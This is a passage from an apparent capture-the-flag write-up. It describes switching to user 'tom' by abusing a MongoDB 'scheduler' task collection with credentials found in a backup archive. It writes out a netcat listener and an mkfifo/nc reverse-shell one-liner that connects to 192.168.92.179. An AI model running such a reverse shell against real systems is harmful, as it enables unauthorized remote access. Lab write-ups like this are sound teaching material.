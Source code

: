 ![writeup.exploitation.steps.3.2](./screenshot12.png)  

4\. We find that we can run arbitrary commands from within the MongoDB instance using its `scheduler` record for which we already found credentials via `app.js` file from the backup archive. Since the MongoDB instance is running as user `tom`, we spawn a Bash reverse shell to switch users:  
``` {.python .numberLines}
nc -nlvp 443
mongo -p -u mark scheduler
  db.tasks.insert({"cmd": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.92.179 443 >/tmp/f"})
  bye
cat /home/tom/user.txt

```

![writeup.exploitation.steps.4.1](./screenshot13.png)  

![writeup.exploitation.steps.4.2](./screenshot14.png)  

![writeup.exploitation.steps.4.3](./screenshot15.png)  
